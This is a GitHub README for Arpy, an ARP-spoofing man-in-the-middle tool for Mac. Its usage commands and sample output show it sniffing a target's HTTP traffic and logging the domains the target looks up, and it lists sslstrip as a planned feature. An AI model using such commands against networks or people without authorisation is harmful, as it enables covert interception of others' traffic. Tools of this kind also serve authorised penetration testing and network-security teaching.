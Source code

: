 ![alt text][logo]

[logo]: https://github.com/ivanvza/arpy/blob/master/images/logo.png "Logo"
# Arpy
Arpy is an easy-to-use [ARP](https://tools.ietf.org/html/rfc826) spoofing MiTM tool for Mac.
It provides 3 targeted functions:
* Packet Sniffing
* Visited Domains
* Visited Domains with [Gource](https://code.google.com/p/gource/)

###### Each function will be explained below.

### Tested OS (to date)
* Darwin 14.3.0 Darwin Kernel Version 14.3.0 (Mac OS X)

## Requirements
* Python 2.7
* Gource
* Scapy

## Installation
#### Gource
```
brew install gource
```
#### Scapy
```
brew install scapy
```

## Sample Commands
```
ivanvza:~/ > arpy
    _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
         - @viljoenivan

Usage: arpy -t <Target IP> -g <Gateway IP> -i <Interface>

ARP MiTM Tool

Options:
  -h, --help            show this help message and exit
  -t TARGET, --target=TARGET
                        The Target IP
  -g GATEWAY, --gateway=GATEWAY
                        The Gateway
  -i INTERFACE, --interface=INTERFACE
                        Interface to use
  --sniff               Sniff all passing data
  --sniff-dns           Sniff only searched domains
  --sniff-dns-gource    Output target's DNS searches in gource format
```

## Packet Sniff
This is the packet sniffer, it allows you to see your target's traffic.
```
ivanvza:~/ > sudo arpy -t 192.168.1.4 -g 192.168.1.1 -i en0 --sniff
    _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
         - @viljoenivan


  [Info] Starting Sniffer...

[Info] Enabling IP Forwarding...
[Info] Done...

[Info] Found the following (IP layer): 192.168.1.4 -> 216.58.223.10
GET /ajax/libs/jquery/1.7.1/jquery.min.js HTTP/1.1
Host: ajax.googleapis.com
Connection: keep-alive
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.152 Safari/537.36
X-Client-Data: CKW1yQEIjrbJAQimtskBCKm2yQEIxLbJAQjriMoBCLWJygEIs5TKAQ==
Referer: http://stackoverflow.com/
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-US,en;q=0.8,af;q=0.6

[Info] Found the following (IP layer): 216.58.223.10 -> 192.168.1.4
HTTP/1.1 200 OK
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Type: text/javascript; charset=UTF-8
Last-Modified: Mon, 02 Apr 2012 18:24:28 GMT
Date: Mon, 18 May 2015 17:26:10 GMT
Expires: Tue, 17 May 2016 17:26:10 GMT
Access-Control-Allow-Origin: *
Timing-Allow-Origin: *
X-Content-Type-Options: nosniff
Server: sffe
Content-Length: 33186
X-XSS-Protection: 1; mode=block
Cache-Control: public, max-age=31536000
Age: 79137
Alternate-Protocol: 80:quic,p=0

�Ľ�~�F�.�?��ʫ�!J�ҷ
```
## DNS Sniff
This function allows you to see domain names that your target is currently requesting.
```
ivanvza:~/ > sudo arpy -t 192.168.1.4 -g 192.168.1.1 -i en0 --sniff-dns
    _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
         - @viljoenivan


  [Info] Starting DNS Sniffer...

[Info] Enabling IP Forwarding...
[Info] Done...
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: www.youtube.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: s2.googleusercontent.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: s.ytimg.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: fonts.gstatic.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: yt3.ggpht.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: i.ytimg.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing.google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing-cache.google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing-cache.google.com.
```
## DNS Sniff With Gource
This function is more or less the same as the above, however it provides the functionality to pass it through Gource to get a live feed of what your target is viewing.
```
ivanvza:~/ > sudo arpy -t 192.168.1.4 -g 192.168.1.1 -i en0 --sniff-dns-gource
WARNING: No route found for IPv6 destination :: (no default route?)
[INFO] For a live gource feed run this command in parallel with this one:

tail -f parsed_domain_gource | tee /dev/stderr | gource -log-format custom -a 1 --file-idle-time 0 -
```
### Sample Gource footage
![alt text][gourve_live_footage]

[gourve_live_footage]: https://github.com/ivanvza/arpy/blob/master/images/arpy_gource.gif "Live Gource Footage"

### Contact
@viljoenivan

### To-do
* Look at adding sslstrip.
* Filter sniff to a certain domain/IP.
* Port it too kali.

